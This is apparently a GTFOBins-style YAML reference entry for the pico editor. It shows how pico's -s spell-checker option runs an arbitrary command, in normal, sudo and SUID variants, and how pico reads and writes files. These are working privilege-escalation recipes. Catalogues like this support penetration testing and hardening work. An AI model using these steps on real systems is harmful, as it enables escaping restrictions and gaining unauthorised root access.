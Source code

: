 ```yaml
---
functions:
  execute-non-interactive:
    - description: After running this exit the editor to see the command output.
      code: |
        COMMAND=id
        TF=$(mktemp)
        echo "$COMMAND" > $TF
        chmod +x $TF
        pico -s $TF /etc/hosts
        ^T
  sudo-enabled:
    - description: After running this exit the editor to see the command output.
      code: |
        COMMAND=id
        TF=$(mktemp)
        echo "$COMMAND" > $TF
        chmod +x $TF
        sudo pico -s $TF /etc/hosts
        ^T
  suid-enabled:
    - description: After running this exit the editor to see the command output.
      code: |-
        COMMAND=id
        TF=$(mktemp)
        echo $'#!/bin/sh -p\n'"$COMMAND" > $TF
        chmod +x $TF
        ./pico -s $TF /etc/hosts
        ^T
  file-read:
    - code: |
        pico file_to_read
  file-write:
    - code: |
        pico file_to_write
        ^O
---
```

